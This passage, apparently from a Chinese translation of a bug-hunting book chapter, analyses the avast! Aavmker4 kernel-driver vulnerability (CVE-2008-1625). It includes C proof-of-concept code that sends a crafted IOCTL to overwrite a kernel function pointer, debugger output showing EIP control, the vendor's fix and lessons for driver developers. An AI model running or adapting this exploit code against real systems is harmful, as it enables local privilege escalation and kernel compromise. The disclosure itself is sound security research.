 10    memset32 (void* dest, unsigned int fill, unsigned int count)
 11    {
 12     if (count > 0) {
 13       _asm {
 14         mov   eax, fill   // pattern
 15         mov   ecx, count  // count
 16         mov   edi, dest   // dest
 17         rep   stosd;
 18       }
 19     }
 20    }
 21
 22    unsigned int
 23    GetDriverLoadAddress (char *drivername)
 24    {
 25     LPVOID        drivers[1024];
 26     DWORD         cbNeeded  = 0;
 27     int           cDrivers  = 0;
 28     int           i         = 0;
 29     const char *  ptr       = NULL;
 30     unsigned int  addr      = 0;
 31
 32     if (EnumDeviceDrivers (drivers, sizeof (drivers), &cbNeeded) &&
 33                            cbNeeded < sizeof (drivers)) {
 34       char szDriver[1024];
 35
 36       cDrivers = cbNeeded / sizeof (drivers[0]);
 37
 38       for (i = 0; i < cDrivers; i++) {
 39         if (GetDeviceDriverBaseName (drivers[i], szDriver,
 40                                      sizeof (szDriver) / sizeof (szDriver[0]))) {
 41           if (!strncmp (szDriver, drivername, 8)) {
 42             printf ("%s (%08x)\n", szDriver, drivers[i]);
 43             return (unsigned int)(drivers[i]);
 44           }
 45         }
 46       }
 47     }
 48
 49     fprintf (stderr, "ERROR: cannot get address of driver %s\n", drivername);
 50
 51     return 0;
 52    }
 53
 54    int
 55    main (void)
 56    {
 57      HANDLE        hDevice;
 58      char *        InputBuffer       = NULL;
 59      BOOL          retval            = TRUE;
 60      unsigned int  driveraddr        = 0;
 61      unsigned int  pattern1          = 0xD0DEAD07;
 62      unsigned int  pattern2          = 0x10BAD0BA;
 63      unsigned int  addr_to_overwrite = 0;      // address to overwrite
 64      char          data[2048];
 65
 66      // get the base address of the driver
 67      if (!(driveraddr = GetDriverLoadAddress ("Aavmker4"))) {
 68        return 1;
 69      }
 70
 71      // address of the function pointer at .data:00012460 that gets overwritten
 72      addr_to_overwrite = driveraddr + 0x2460;
 73
 74      // allocate InputBuffer
 75      InputBuffer = (char *)VirtualAlloc ((LPVOID)0,
 76                        INPUTBUFFER_SIZE,
 77                        MEM_COMMIT | MEM_RESERVE,
 78                        PAGE_EXECUTE_READWRITE);
 79
 80      /////////////////////////////////////////////////////////////////////////////
 81      // InputBuffer data:
 82      //
 83      // .text:00010DC9  mov esi, [ebx+0Ch]  ; ESI == InputBuffer
 84
 85      // fill InputBuffer with As
 86      memset (InputBuffer, 0x41, INPUTBUFFER_SIZE);
 87
 88      // .text:00010DE6  mov eax, [esi+870h] ; EAX == pointer to "data"
 89      memset32 (InputBuffer + 0x870, (unsigned int)&data, 1);
 90
 91      /////////////////////////////////////////////////////////////////////////////
 92      // data:
 93      //
 94
 95      // As the "data" buffer is used as a parameter for a
 "KeSetEvent" windows kernel
 96      // function, it needs to contain some valid pointers
 (.text:00010E2C call ds:KeSetEvent)
 97      memset32 (data, (unsigned int)&data, sizeof (data) / sizeof (unsigned int));
 98
 99      // .text:00010DEF  cmp dword ptr [eax], 0D0DEAD07h ; EAX == pointer to "data"
100      memset32 (data, pattern1, 1);
101
102      // .text:00010DF7  cmp dword ptr [eax+4], 10BAD0BAh ; EAX
 == pointer to "data"
103      memset32 (data + 4, pattern2, 1);
104
105      // .text:00010E18 mov edi, [eax+18h] ; EAX == pointer to "data"
106      memset32 (data + 0x18, addr_to_overwrite, 1);
107
108      /////////////////////////////////////////////////////////////////////////////
109      // open device
110      hDevice = CreateFile (TEXT("\\\\.\\AavmKer4"),
111                  GENERIC_READ | GENERIC_WRITE,
112                  FILE_SHARE_READ | FILE_SHARE_WRITE,
113                  NULL,
114                  OPEN_EXISTING,
115                  0,
116                  NULL);
117
118      if (hDevice != INVALID_HANDLE_VALUE) {
119        DWORD retlen = 0;
120
121        // send evil IOCTL request
122        retval = DeviceIoControl (hDevice,
123                      IOCTL,
124                      (LPVOID)InputBuffer,
125                      INPUTBUFFER_SIZE,
126                      (LPVOID)NULL,
127                      0,
128                      &retlen,
129                      NULL);
130
131        if (!retval) {
132          fprintf (stderr, "[-] Error: DeviceIoControl failed\n");
133        }
134
135      } else {
136        fprintf (stderr, "[-] Error: Unable to open device.\n");
137      }
138
139      return (0);
140    }
```

在示例 6-2")的第 67 行，驱动程序在内存中的基本地址存储在`driveraddr`中。然后，在第 72 行，计算函数指针的地址；这个地址被通过操作的`memcpy()`调用覆盖。在第 75 行分配了一个`INPUTBUFFER_SIZE`(`0x878`)字节的缓冲区。这个缓冲区包含 IOCTL 输入数据，并用十六进制值`0x41`填充（见第 86 行）。然后，将另一个数据数组的指针复制到输入数据缓冲区中（见第 89 行）。在驱动程序的汇编代码中，这个指针在地址`.text:00010DE6`处被引用：`mov eax, [esi+870h]`。

在调用`memcpy()`函数之后，直接调用了内核函数`KeSetEvent()`：

```
[..]
.text:00010E10                 add     esi, 4          ; source address
.text:00010E13                 mov     ecx, 21Ah       ; length
.text:00010E18                 mov     edi, [eax+18h]  ; destination address
.text:00010E1B                 rep movsd               ; memcpy()
.text:00010E1D                 dec     PendingCount2
.text:00010E23                 inc     dword ptr [eax+20h]
.text:00010E26                 push    edx             ; Wait
.text:00010E27                 push    edx             ; Increment
.text:00010E28                 add     eax, 8
`.text:00010E2B                 push    eax             ; Parameter of KeSetEvent`
`.text:00010E2B                                         ; (eax = IOCTL input data)`
`.text:00010E2C                 call    ds:KeSetEvent   ; KeSetEvent is called`
.text:00010E32                 xor     edi, edi
[..]
```

由于`EAX`指向的用户数据被用作此函数的参数（见`.text:00010E2B`），数据缓冲区需要填充有效的指针以防止访问违规。我将整个缓冲区填充了自己的有效用户空间地址（见第 97 行）。然后在第 100 行和第 103 行，将两个预期的模式复制到数据缓冲区中（见`.text:00010DEF`和`.text:00010DF7`），在第 106 行，将`memcpy()`函数的目标地址复制到数据缓冲区中（`.text:00010E18 mov edi, [eax+18h]`）。然后打开驱动程序的设备进行读写（见第 110 行），并将恶意 IOCTL 请求发送到有漏洞的内核驱动程序（见第 122 行）。

在我开发了那个 POC 代码后，我启动了 Windows XP VMware 虚拟机系统，并将 WinDbg 连接到内核（有关以下调试器命令的描述，请参阅 B.2 节）：

```
kd> `.sympath SRV*c:\WinDBGSymbols*http://msdl.microsoft.com/download/symbols`
kd> `.reload`
[..]
kd> `g`
Break instruction exception - code 80000003 (first chance)
*******************************************************************************
*                                                                             *
*   You are seeing this message because you pressed either                    *
*       CTRL+C (if you run kd.exe) or,                                        *
*       CTRL+BREAK (if you run WinDBG),                                       *
*   on your debugger machine's keyboard.                                      *
*                                                                             *
*                   THIS IS NOT A BUG OR A SYSTEM CRASH                       *
*                                                                             *
* If you did not intend to break into the debugger, press the "g" key, then   *
* press the "Enter" key now.  This message might immediately reappear.  If it *
* does, press "g" and "Enter" again.                                          *
*                                                                             *
*******************************************************************************
nt!RtlpBreakWithStatusInstruction:
80527bdc cc              int     3

kd> `g`
```

我使用 Visual Studio 的命令行编译器 (`cl`) 编译了 POC 代码，并在 VMware 虚拟机系统内部以无权限用户身份执行它：

```
C:\BHD\avast>`cl /nologo poc.c psapi.lib`
C:\BHD\avast>`poc.exe`
```

在我执行了 POC 代码后，没有任何反应。那么我该如何确定函数指针是否被成功操作了呢？嗯，我只需要通过打开任意可执行文件来触发防病毒引擎。我打开了 Internet Explorer，并在调试器中得到了以下信息：

```
#################### AAVMKER: WRONG RQ ######################!
Access violation - code c0000005 (!!! second chance !!!)
                     41414141 ??                ???
```

是的！指令指针似乎完全在我的控制之下。为了验证这一点，我向调试器请求更多信息：

```
kd> `kb`
ChildEBP RetAddr  Args to Child
WARNING: Frame IP not in any known module. Following frames may be wrong.
`ee91abc0 f7925da3 862026a8 e1cd33a8 00000001 0x41414141`
ee91ac34 804ee119 86164030 860756b8 806d22d0 Aavmker4+0xda3
ee91ac44 80574d5e 86075728 861494e8 860756b8 nt!IopfCallDriver+0x31
ee91ac58 80575bff 86164030 860756b8 861494e8 nt!IopSynchronousServiceTail+0x70
ee91ad00 8056e46c 0000011c 00000000 00000000 nt!IopXxxControlFile+0x5e7
ee91ad34 8053d638 0000011c 00000000 00000000 nt!NtDeviceIoControlFile+0x2a
ee91ad34 7c90e4f4 0000011c 00000000 00000000 nt!KiFastCallEntry+0xf8
0184c4d4 650052be 0000011c b2d60034 0184ff74 0x7c90e4f4
0184ffb4 7c80b713 0016d2a0 00150000 0016bd90 0x650052be
0184ffec 00000000 65004f98 0016d2a0 00000000 0x7c80b713

kd> `r`
eax=862026a8 ebx=860756b8 ecx=b2d6005b edx=00000000 esi=00000008 edi=861494e8
`eip=41414141` esp=ee91abc4 ebp=ee91ac34 iopl=0         nv up ei pl nz na po nc
cs=0008  ss=0010  ds=0023  es=0023  fs=0030  gs=0000             efl=00010202
41414141 ??              ???
```

如 图 6-7 所示的利用过程如下：

1.  输入数据的长度是 `0x878` 吗？如果是，请进行步骤 2。

1.  用户空间缓冲区 `data` 被引用。

1.  在 `data[0]` 和 `data[4]` 是否找到了预期的模式？如果是，请进行步骤 4。

    

    图 6-7. 我对 avast! 漏洞的利用示意图

1.  `memcpy()` 调用的目标地址被引用。

1.  `memcpy()` 函数将 IOCTL 输入数据复制到内核的 `.data` 区域。

1.  被操作的函数指针完全控制了 `EIP`。

如果在未连接内核调试器的情况下执行 POC 代码，将出现著名的蓝屏死机 (BSoD)（请参阅 图 6-8")）。



图 6-8. 死机蓝屏 (BSoD)

在我控制了 `EIP` 之后，我开发了两个利用程序。其中一个授予任何请求的用户 SYSTEM 权限（权限提升），另一个使用众所周知的直接内核对象操作 (DKOM) 技术将 rootkit 安装到内核中。^([72)]）

严格的法律禁止我提供完整的、可工作的利用程序，但如果您感兴趣，您可以在本书的网站上观看利用程序的实际操作视频。^([73)]）

# 6.3 漏洞修复

### 注意

*2008 年 3 月 29 日，星期六*

我于 2008 年 3 月 18 日向 ALWIL Software 报告了该漏洞，并且它今天发布了 avast! 的更新版本。哇，对于一个商业软件供应商来说，这真的很快！

# 6.4 经验教训

作为一名程序员和内核驱动开发者：

+   为导出的设备对象定义严格的网络安全设置。不允许无权限用户从这些设备中读取或写入。

+   总是要小心验证输入数据是否正确。

+   内存复制操作的目标地址不应从用户提供的数据中提取。

# 6.5 补遗

### 注意

*星期日，2008 年 3 月 30 日*

由于漏洞已修复，并且现在有新的 avast!版本可用，我今天在我的网站上发布了一份详细的安全警告。^[[74]) 漏洞被分配了 CVE-2008-1625 编号。图 6-9 显示了漏洞修复的时间线。



图 6-9. 从供应商通知到发布我的安全警告的时间线

## 备注

^([57])

^([58])

^([59])

^([60])

^([61])

^([62])

^([63])

^([64])

^([65])

^([66])

^([67])

^([68])

^([69])

^([70])

^([71])

^([72])

^([73])

^([74])

* * *

^([57]) 请参阅 SANS Top 20 互联网安全问题和风险（2007 年年度更新），[`www.sans.org/top20/2007/`](http://www.sans.org/top20/2007/)。

^([58]) 请参阅[`www.virustotal.com/`](http://www.virustotal.com/)。

^([59]) 请参阅[`www.avast.com/`](http://www.avast.com/)。

^([60]) 请参阅[`www.vmware.com/`](http://www.vmware.com/)。

^([61]) WinDbg，微软的“官方”Windows 调试器，作为免费“Windows 调试工具”套件的一部分进行分发，可在[`www.microsoft.com/whdc/DevTools/Debugging/default.mspx`](http://www.microsoft.com/whdc/DevTools/Debugging/default.mspx)找到。

^([62]) 您可以在[`www.trapkit.de/books/bhd/`](http://www.trapkit.de/books/bhd/)找到 avast! Professional 4.7 的易受攻击的试用版下载链接。

^([63]) 请参阅[`www.nirsoft.net/utils/driverview.html`](http://www.nirsoft.net/utils/driverview.html)。

^([64]) 请参阅[`www.hex-rays.com/idapro/`](http://www.hex-rays.com/idapro/)。

^([65]) 请参阅 Mark E. Russinovich 和 David A. Solomon 的《Microsoft Windows Internals：Microsoft Windows Server 2003、Windows XP 和 Windows 2000，第 4 版》。 (雷德蒙德，华盛顿州：微软出版社，2005 年)。

^([66]) 请参阅 MSDN 库：Windows 开发：Windows 驱动程序开发工具包：内核模式驱动程序架构：参考：标准驱动程序例程：DriverEntry，[`msdn.microsoft.com/en-us/library/ff544113.aspx`](http://msdn.microsoft.com/en-us/library/ff544113.aspx)。

^([67]) WinObj 可在[`technet.microsoft.com/en-us/sysinternals/bb896657.aspx`](http://technet.microsoft.com/en-us/sysinternals/bb896657.aspx)找到。

^([68]) Windows 驱动程序工具包的下载地址为 [`www.microsoft.com/whdc/devtools/WDK/default.mspx`](http://www.microsoft.com/whdc/devtools/WDK/default.mspx)。

^([69]) 请参阅 MSDN 库：Windows 开发：Windows 驱动程序工具包：内核模式驱动程序架构：参考：标准驱动程序例程：DispatchDeviceControl，可在 [`msdn.microsoft.com/en-us/library/ff543287.aspx`](http://msdn.microsoft.com/en-us/library/ff543287.aspx) 找到。

^([70]) 请参阅 MSDN 库：Windows 开发：Windows 驱动程序工具包：内核模式驱动程序架构：参考：内核数据类型：系统定义的数据结构：IRP，可在 [`msdn.microsoft.com/en-us/library/ff550694.aspx`](http://msdn.microsoft.com/en-us/library/ff550694.aspx) 找到。

^([71]) 请参阅 MSDN 库：Windows 开发：Windows 驱动程序工具包：内核模式驱动程序架构：设计指南：编写 WDM 驱动程序：管理驱动程序的输入/输出：处理 IRPs：使用 I/O 控制代码：I/O 控制代码的缓冲区描述，可在 [`msdn.microsoft.com/en-us/library/ff540663.aspx`](http://msdn.microsoft.com/en-us/library/ff540663.aspx) 找到。

^([72]) 请参阅 Jamie Butler 的 *DKOM (Direct Kernel Object Manipulation)*（演示文稿，Black Hat Europe，阿姆斯特丹，2004 年 5 月），可在 [`www.blackhat.com/presentations/win-usa-04/bh-win-04-butler.pdf`](http://www.blackhat.com/presentations/win-usa-04/bh-win-04-butler.pdf) 找到。

^([73]) 请参阅 [`www.trapkit.de/books/bhd/`](http://www.trapkit.de/books/bhd/).

^([74]) 描述 avast! 漏洞详细信息的我的安全咨询报告可在 [`www.trapkit.de/advisories/TKADV2008-002.txt`](http://www.trapkit.de/advisories/TKADV2008-002.txt) 找到。
